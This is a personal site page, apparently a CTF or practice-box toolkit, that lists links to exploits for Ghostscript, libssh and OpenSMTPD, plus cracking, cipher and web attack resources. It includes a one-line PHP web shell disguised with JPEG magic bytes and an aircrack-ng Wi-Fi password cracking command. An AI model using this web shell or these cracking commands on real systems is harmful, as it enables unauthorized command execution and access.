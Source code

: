 ```yaml
---
layout: page
title: Tools
subtitle: Tools i used to solve machines
permalink: /Tools/
#gallery_path: "assets/img/pexels"
tags: [Page]
---
```



# BASE CVE

CVE-2019-14813 [ghost_script](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

CVE-2018-10993  [Libssh 0.8.1](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)

CVE-2019-1010174 [CVE-2019-1010174](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1010174)


# Brute Force Tools

Ssh2john [Ssh2john](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810)

# Applictions

Tmux [Tmux](https://man7.org/linux/man-pages/man1/tmux.1.html)

OpenSMTPD 6.4.0 < 6.6.1  [OpenSMTPD](https://www.exploit-db.com/exploits/48051)

PHP file as image  >  **echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php** 

Magic byts [Magic byts](https://en.wikipedia.org/wiki/List_of_file_signatures)

debug group [Debug group](/assets/img/gdb1.png)



# Web Applictions

Node.js Express framework [Node.js Express framework](https://haboob.sa/ctf/nullcon-2019/blog.html)

Memcache Enumartion [Memcache](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

mPDF and PHP [mPDF](https://github.com/mpdf/mpdf/issues/356#issue-216032258)

meta-git [meta-git-rce](https://hackerone.com/reports/728040)

# Encryption

CyberChef [CyberChef](https://gchq.github.io/CyberChef/)

crackstation [crackstation](https://crackstation.net/)

identification-chiffrement [identification-chiffrement](https://www.dcode.fr/identification-chiffrement)

Crypto RSA [Crypto RSA](https://chowdera.com/2022/136/202205160703029213.html)

Cipher Identifier and Analyzer [Cipher Identifier and Analyzer](https://www.boxentriq.com/code-breaking/cipher-identifier)

Hacking Secret Ciphers with Python [Hacking Secret Ciphers with Python](http://inventwithpython.com/hacking/)

Read PDF as TEXT **>pdftotext Financial_Report_for_ABC_Labs.pdf**

# Wifi

aircrack-ng [crack wifi pass from pcap file](https://www.aircrack-ng.org/doku.php?id=aircrack-ng) 

example:
aircrack-ng  wpa-ing_out.pcap -w PATH TO WORDLIST
